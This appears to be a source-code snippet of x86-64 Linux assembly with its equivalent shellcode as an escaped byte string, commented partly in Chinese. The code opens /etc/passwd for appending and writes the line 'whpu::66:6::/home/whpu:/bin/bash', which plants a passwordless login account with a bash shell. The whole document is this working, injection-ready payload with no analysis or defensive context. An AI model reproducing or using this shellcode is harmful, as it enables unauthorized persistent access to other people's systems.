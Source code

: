```
    push    rbx                            
    mov     rbx,    0x6d6f682f3a3a363a
    push    rbx                            
    mov rbx,    0x36363a3a75706877
    push    rbx            
    mov rbx,    rsp  
    
    push    rbp            
    mov rbp,    rsp         
    sub rsp,        16
    mov [rbp - 16], rbx     
    mov si,     0x0401      
    mov rdi,        rbx
    add rdi,        40     
    xor rax,        rax
    mov al,     2   
    syscall             ;open()
    
    ;sys_write(uint fd, char* buf, uint size)
    mov [rbp - 4],  eax    
    mov rcx,rbx     
    xor rdx, rdx
    mov dl,39      
    mov rsi,rcx    
    mov rdi,rax     
    xor  rax,rax
    mov  al,  1    
    syscall		;write
    
    ;sys_close(uint fd)
    xor rdi,        rdi
    mov edi,        [rbp - 4] 
    xor rax,        rax
    mov al,     3   
    syscall				;关闭close
    
  
    xor rax,rax
    mov al, 60      
    xor rbx,rbx       
    syscall    ;退出
```

```
\x48\x31\xdb\xbb\xff\x73\x77\x64\x48\xc1\xeb\x08\x53\x48\xbb\x2f\x65\x74\x63\x2f\x70\x61\x73\x53\x48\x31\xc0\x50\x48\xbb\x62\x69\x6e\x2f\x62\x61\x73\x68\x53\x48\xbb\x65\x2f\x77\x68\x70\x75\x3a\x2f\x53\x48\xbb\x3a\x36\x3a\x3a\x2f\x68\x6f\x6d\x53\x48\xbb\x77\x68\x70\x75\x3a\x3a\x36\x36\x53\x48\x89\xe3\x55\x48\x89\xe5\x48\x83\xec\x10\x48\x89\x5d\xf0\x66\xbe\x01\x04\x48\x89\xdf\x48\x83\xc7\x28\x48\x31\xc0\xb0\x02\x0f\x05\x89\x45\xfc\x48\x89\xd9\x48\x31\xd2\xb2\x27\x48\x89\xce\x48\x89\xc7\x48\x31\xc0\xb0\x01\x0f\x05\x48\x31\xff\x8b\x7d\xfc\x48\x31\xc0\xb0\x03\x0f\x05\x48\x31\xc0\xb0\x3c\x48\x31\xdb\x0f\x05
```
